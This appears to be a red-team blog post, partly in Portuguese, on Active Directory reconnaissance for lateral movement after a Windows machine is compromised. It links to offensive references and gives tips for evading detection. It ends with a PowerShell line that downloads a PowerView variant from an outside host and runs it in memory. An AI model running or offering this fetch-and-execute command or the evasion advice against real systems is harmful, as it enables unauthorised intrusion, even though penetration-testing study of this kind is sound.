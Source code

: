 ```yaml
---
layout: post
title: windows post-exp 2
date: 2025-05-01
description: windows AD recon for lateral movement
categories: windows
---
```



## Domain Recon for lateral moviment
> ___

Depois de conseguir acesso a uma maquina que faz parte de um dominio AD, o reconhecimento de um (ou mais) dominio(s) AD é essencial para identificar outras contas de usuário, serviços, grupos e suas permissões (GPOs, ACLs, ACEs, etc), para assim encontrar formas de movimentar lateralmente e elevar privilégios no dominio AD.

A ideia aqui é mostrar algumas formas de reconhecimento que são baseadas em protocolos nativos usados pelo AD e pelo s.o windows, com o objetivo de tirar vantagem de ferramentas usadas nativamente e ser mais furtivo numa atepa conhecida pelos redteamers como Situational Awareness...

- Account Discovery: Domain Account
- https://attack.mitre.org/techniques/T1087/002/

- AD https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
  - https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
  - https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-enumerate/

#### opsec tips

- https://github.com/RistBS/Awesome-RedTeam-Cheatsheet/blob/master/Miscs/OPSEC%20Guide.md

- do ldap queries more specific that not consume high processing to execute.

- tools that use wldap32.dll can be detected more easily.

- execute in memory post-exp tools.


## PowerView
> ___

What powerview does is basically instantiate the DirectorySearcher object and use LDAP filters to query specific objects (more details below in the raw ldap query examples)

- https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
- https://05t3.github.io/posts/PowerView-Walkthrough/
- https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/powerview.html
- https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-enumerate/#using-powerview


- load pv in memory
```
$netobj = New-Object System.Net.WebClient;
IEX($netobj.DownloadString('https://sf-res.com/miniview.ps1'));
```
